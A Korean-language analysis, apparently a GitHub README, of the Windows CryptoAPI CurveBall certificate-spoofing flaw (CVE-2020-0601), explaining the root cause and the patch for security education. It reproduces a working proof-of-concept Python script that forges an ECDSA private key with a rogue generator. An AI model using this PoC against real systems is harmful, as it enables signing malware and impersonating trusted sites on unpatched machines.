 # Curveball - Windows CryptoAPI Spoffing 취약점

## Information
- CVE : 2020-0601
- 해당 소프트웨어 : Crypto32.dll in Windows 
- 해당 버전 : Windows 10, Windows Server 2016 and 2019 (before patch jan 14,2020)
- 취약점 유형 : 인증서 스푸핑


## Description
Windows CryptoAPI (Crypt32.dll)이 타원곡선전자서명알고리즘 (Elliptic Curve Digital Signature Algorithm, ECDSA)으로 서명된 인증서의 유효성을 검사하는 방식에서 취약점이 존재한다. 공격자는 스푸핑된 Code Signing Certificate를 통해 악의적인 실행파일에 서명할 수 있다. 이 경우, 서명된 실행파일은 신뢰할 수 있는 공급자에 의해 서명된것처럼 사용자에게 보여지게 된다. 뿐만 아니라, SSL/TLS로 암호화된 페이지도 마찬가지로 위조가 가능하며, 아래 그림처럼 정상적인 페이지로 보여지게 된다.

![](fake_https.png)



## Root Cause

이 취약점은 X.509인증서를 신뢰할 수있는 Root CA로 추적 할 수 있는지 확인하기 위해 사용되는  CertGetCertificateChain()함수에서 발생한다. 해당 함수에 대해 설명하기 이전에 ECDSA를 이용한 서명과 검증에 대해 이해할 필요가 있다. 

ECDSA에서, 개인키 k는 충분히 큰 정수로 설정되며, 타원곡선 E에 대해 P=k*G로 계산되는 공개키 P가 설정된다. 이 때 G는 해당 곡선의 생성자(generator)로써, 거대한 소수로 설정된다. 또한, 이 값은 통상 표준화되어있는 것이 일반적이다. 

정상적으로 검증 루틴이 구현되어있다면, 개인키 k를 이용하여 서명하는 대상에 대해 정상적인 생성자로 세팅되어있는지를 검사하고, k*G의 값이 공개키와 일치하는지를 확인해야 할 것이다. 그러나, 문제가 된 CertGetCertificatieChain()함수에서 생성자를 검증하지 않아 문제가 발생한다. 
SK InfoSec에서 패치 전/후를 분석해놓은 보고서를 보면, 패치 전에는 검증 루틴에서 단순히 memcpy로 공개키만 비교하여 문제가 발생하였음을 알 수 있다. 

![http://blog.naver.com/skinfosec2000/221808540609](before_patch.png)

공격자가 생성자를 자유롭게 선택할 수 있기 때문에, 공개키 P에 대해 P=k'*G'를 만족하는 쌍 (k',G')을 만드는 것은 어렵지 않게 가능하다. 이 [PoC](https://github.com/kudelskisecurity/chainoffools/blob/master/gen-key.py)의 쌍 생성 부분에서도, 개인키를 2로 고정하고 2*G=P를 만족하는 G를 역으로 구해주고 있음을 알 수 있다. 

![](snip_by_gen_key.py.png)


## Patch
Microsoft는 새로운 함수인 ChainComparePublicKeyParametersAndBytes()를 추가해서 딘순히 발행자와 공개키 해시를 비교하는 대신 신뢰하는 루트 인증서와 실제로 종단 인증서에 서명하는데 사용된 인증서 사이에 파라미터들과 바이트를 비교하게 하여 해당 문제를 해결하였습니다. 만약 앞선 취약점 PoC와 같이 생성자 혹은 다른 파라미터를 변경할 경우, CryptVerifySignatuerEx()가 실제 신뢰하는 루트 인증서와 파라미터를 다시 가져오게 된다.

![http://blog.naver.com/skinfosec2000/221808540609](patched.png)

## PoC
[공개된 PoC](https://github.com/kudelskisecurity/chainoffools)는 아래와 같다. 공개된 다른 PoC들도 많지만, 이는 Reference에만 첨부한다. 
```python
#!/usr/bin/env python3
import gmpy2
import sys

from fastecdsa.curve import P384
from fastecdsa.point import Point
from Crypto.Util.asn1 import DerSequence, DerOctetString, DerBitString, DerObjectId
from Crypto.IO import PEM
from Crypto.PublicKey import ECC
from binascii import hexlify

def generate_privkey(d, generator):
    """
        Generate a private key with explicit parameters.
    """
    modulus_bytes = 48
    a = P384.a % P384.p
    public_key = d * generator
    generator = (b'\x04' +
        generator.x.to_bytes(modulus_bytes, "big") +
        generator.y.to_bytes(modulus_bytes, "big"))
    public_key = (b'\x04' + 
                    public_key.x.to_bytes(modulus_bytes, "big") +
                    public_key.y.to_bytes(modulus_bytes, "big"))

    field_parameters =  DerSequence([DerObjectId("1.2.840.10045.1.1"), P384.p])
    parameters = [DerSequence([1, field_parameters,
                    DerSequence([
                    DerOctetString(a.to_bytes(modulus_bytes, "big")),
                    DerOctetString(P384.b.to_bytes(modulus_bytes, "big"))]),
                    DerOctetString(generator),
                    P384.q,
                1
            ])]
    seq = [1,
            DerOctetString(d.to_bytes(modulus_bytes, "big")),
            DerSequence(parameters, implicit=0),
            DerBitString(public_key, explicit=1)]
    
    return seq

if __name__ == "__main__":

    if len(sys.argv) != 2:
        print("Usage " + sys.argv[0] + " root-certificate.pem")
        sys.exit()

    # Public key extraction
    cert = open(sys.argv[1], "r")
    pubkey = ECC.import_key(cert.read())
    cert.close()
    nb_bytes = pubkey.pointQ.size_in_bytes()

    if pubkey.curve != "NIST P-384":
        print("Public key must be on P-384 curve")
        sys.exit()

    Q = Point(int(pubkey.pointQ.x), int(pubkey.pointQ.y), curve=P384)

    # Generate rogue generator
    # we take the private key as being 2
    privkey = 2
    # we multiply our public key Q with the inverse of our chosen private key value
    rogueG = gmpy2.invert(privkey,P384.q) * Q
    der = DerSequence(generate_privkey(privkey, rogueG))
    # Generate new file
    f = open('p384-key-rogue.pem','w')
    keyfile = PEM.encode(der.encode(), 'EC PRIVATE KEY')
    f.write(keyfile)
    f.close()
```

## Reference
- [PoC written by kudelskisecurity](https://github.com/kudelskisecurity/chainoffools)
- [PoC written by ollypwn](https://github.com/ollypwn/CurveBall)
- [Windows CryptoAPI Spoofing 취약점 written by SK Infosec](http://blog.naver.com/skinfosec2000/221808540609)
- [An In-Depth Technical Analysis of CurveBall (CVE-2020-0601)](https://blog.trendmicro.com/trendlabs-security-intelligence/an-in-depth-technical-analysis-of-curveball-cve-2020-0601/)
